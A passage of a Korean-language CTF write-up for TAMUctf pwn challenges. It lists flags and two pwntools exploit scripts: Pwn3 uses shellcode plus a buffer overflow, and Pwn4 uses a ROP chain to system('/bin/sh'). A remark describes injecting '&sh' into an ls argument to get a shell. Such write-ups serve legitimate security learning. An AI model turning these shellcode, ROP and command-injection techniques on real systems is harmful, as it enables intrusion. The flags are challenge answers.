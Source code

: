 **FLAG : gigem{4ll_17_74k35_15_0n3}**

<br />

### Pwn3

```python
from pwn import *

# p = remote('pwn.tamuctf.com',4323)
p = process('./pwn3')
e = ELF('./pwn3')

sh = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"
p.recvuntil('Take this, you might need it on your journey ')
add = int(p.recv(10),0)
payload=''
payload += sh
payload += 'A'*(302-len(sh))
payload += p32(add)
p.sendline(payload)
p.interactive()
```

**FLAG : gigem{r3m073_fl46_3x3cu710n}**

<br />

### Pwn4

Pwn4와 Pwn5는 그냥 살짝 쉽게 푸는 법이 있는데 이게 `Enter the arguments you would like to pass to ls:` 이후에 몇 바이트만 받는데 약 4? 5인가? 이게 ls명령어를 실행하니까 `&sh` 로 쉘을 딸 수 있었다. 

ex 1)

```python
from pwn import *

# p = remote('pwn.tamuctf.com',4324)
p = process('./pwn4')
e = ELF('./pwn4')

gets_plt=e.plt['gets']
system_plt=e.plt['system']
pr_add=0x80486DB

p.recvuntil('Enter the arguments you would like to pass to ls:')
payload=''
payload+='A'*37
payload+=p32(gets_plt)
payload+=p32(pr_add)
payload+=p32(e.bss())

payload+=p32(system_plt)
payload+='A'*4
payload+=p32(e.bss())

p.sendline(payload)
p.sendline('/bin/sh\x00')
sleep(0.5)
p.interactive()
```
